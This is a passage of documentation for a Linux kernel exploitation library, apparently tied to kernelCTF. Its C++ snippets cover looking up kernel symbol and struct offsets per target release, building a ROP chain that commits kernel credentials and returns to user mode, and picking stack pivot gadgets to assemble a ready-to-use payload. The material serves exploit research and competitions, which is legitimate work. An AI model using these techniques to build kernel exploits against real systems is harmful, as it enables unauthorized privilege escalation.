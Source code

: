 How to get started
==================

Creating a Database
-------------------

1.  Add the necessary includes to the exploit code.

    .. code-block:: c++

        #include <cassert>
        #include <target/TargetDb.cpp>
        #include <test/kpwn/Kpwn.cpp>
        #include <util/incbin.cpp>
        #include <util/syscalls.cpp>
        #include <util/error.cpp>
        #include <util/pwn_utils.cpp>
        #include <payloads/Payload.cpp>
        #include <util/HexDump.cpp>
        #include <util/ArgumentParser.cpp>
        #include <pivot/PivotFinder.cpp>
        #include <pivot/StackPivot.cpp>
        #include <payloads/PayloadBuilder.h>
        #include <payloads/PayloadBuilder.cpp>

2.  Include the **target\_db** in the exploit. ``INCBIN`` creates a read-only section in the binary with the file contents.

    .. code-block:: c++

        INCBIN(target_db, "target_db.kpwn");

3.  Initialize **TargetDb**:

    .. code-block:: c++

        TargetDb kpwn_db(target_db, target_db_size);

4.  Already available in database structure and symbol offsets are documented in ``kpwn_db/config.py``. They are added for all the supported targets.

5.  If the needed symbol is not in database, use ``Target`` object to add it. One object per target needed. For example:

    .. code-block:: c++

        Target st("kernelctf", "cos-105-17412.294.34");

        st.AddSymbol("nft_last_ops", 0x1acaf20);

        kpwn_db.AddTarget(st);

6.  Similar approach could be taken for adding structure and fields information:

    .. code-block:: c++

        Target st("kernelctf", "cos-105-17412.294.34");

        st.AddStruct("nft_expr_ops", 128,
                    {{"dump", 64, 8},
                    {"type", 120, 8}});

        kpwn_db.AddTarget(st);

    .. note::
        ``128`` in the example above is a size of the ``nft_expr_ops`` structure. ``{"dump", 64, 8}`` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target **TargetDb** is being run on.

    .. code-block:: c++

        auto target = kpwn_db.AutoDetectTarget();
        printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());

8.  Access pre-defined or added (via ``Target``) structures and symbols using following calls:

    .. code-block:: c++

        auto offset = target.GetStruct("nft_expr_ops").size + target.GetStruct("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

        *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops

---

Building the Payload
--------------------

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1.  Initialize a ``Payload`` object. This will serve as the buffer for our ROP chain and other necessary data.

    .. code-block:: c++

        Payload payload(1024);

2.  If the payload contains constants / areas that should not be overwritten by ``PayloadBuilder``, mark them as reserved:

    .. code-block:: c++

        payload.Reserve(0, 8);

    .. note::
        Reserves 8 bytes at offset 0.

3.  Create the ``RopChain``. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The ``Ret2Usr`` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    .. code-block:: c++

        RopChain rop(target, kaslr_base);
        rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
        RopUtils::Ret2Usr(rop, (void*)win);

    .. note::
        Available ROP actions could be found in ``kpwn_db/config.py``.

---

Assembling the Final Payload with PayloadBuilder
------------------------------------------------

The ``PayloadBuilder`` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1.  Initialize the ``PayloadBuilder`` with the target's available pivot gadgets and the KASLR base.

    .. code-block:: c++

        PayloadBuilder builder(target.pivots, kaslr_base);

2.  Add the ``payload`` object to the builder. You need to specify which register will point to your payload buffer (e.g., ``Register::RSI``) and the offset within that buffer where the instruction pointer (``rip``) will be hijacked.

    .. code-block:: c++

        uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
        builder.AddPayload(payload, Register::RSI, rip_off);

    In the situation when multiple registers contain a pointer to the payload, it's worth informing ``PayloadBuilder`` about it:

    .. code-block:: c++

        uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
        builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);

    ``PayloadBuilder`` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform ``PayloadBuilder`` about such a setup use:

    .. code-block:: c++

        Payload payload1(payload_size_1);
        Payload payload2(payload_size_2);
        PayloadBuilder builder(target.pivots, kernel_base); // create builder

        builder.AddPayload(payload1, std::nullopt, std::nullopt);
        builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     

3.  Add the ``RopChain`` to the builder.

    .. code-block:: c++

        builder.AddRopChain(rop);

4.  Build the final payload. The ``Build()`` method will find an appropriate pivot gadget that uses the specified register (``RSI`` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the ``payload`` object you provided earlier.

    .. code-block:: c++

        if(!builder.Build()) 
            exit(-1); 

    Once built, the ``payload`` object contains the complete, ready-to-use exploit payload.

5.  In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

    .. code-block:: c++

        *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
